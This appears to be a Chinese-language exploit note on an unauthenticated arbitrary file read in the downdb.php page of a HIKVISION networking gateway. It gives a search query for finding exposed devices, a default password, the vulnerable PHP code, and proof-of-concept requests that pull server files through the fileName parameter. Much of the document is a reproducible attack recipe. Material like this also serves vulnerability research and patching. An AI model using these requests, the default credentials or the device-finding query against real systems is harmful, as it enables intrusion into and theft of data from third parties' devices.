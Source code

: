 # HIKVISION 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 联网网关，流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title=="联网网关"
```

## 漏洞复现

默认密码：`admin/12345`

![image-20220519174002167](./images/202205191740359.png)

出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```

![image-20220519174022222](./images/202205191740299.png)